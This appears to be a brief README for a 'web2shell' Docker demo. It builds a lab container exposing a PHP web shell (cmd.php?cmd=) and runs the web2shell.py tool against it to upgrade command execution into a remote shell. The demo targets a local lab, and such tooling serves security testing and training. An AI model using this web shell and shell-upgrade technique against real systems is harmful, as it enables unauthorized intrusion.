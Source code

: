 # web2shell docker demo

1. Build the docker image (`docker build . --tag webshell`)
2. Run the image (`docker run -it -p 8080:80 webshell`)
3. Use web2shell to secure a remote connection on the docker0 interface (`python3 web2shell.py  --url http://127.0.0.1:8080/cmd.php?cmd=SHELL --interface docker0`)

Note: This Docker container only has `perl` and `php` binaries.
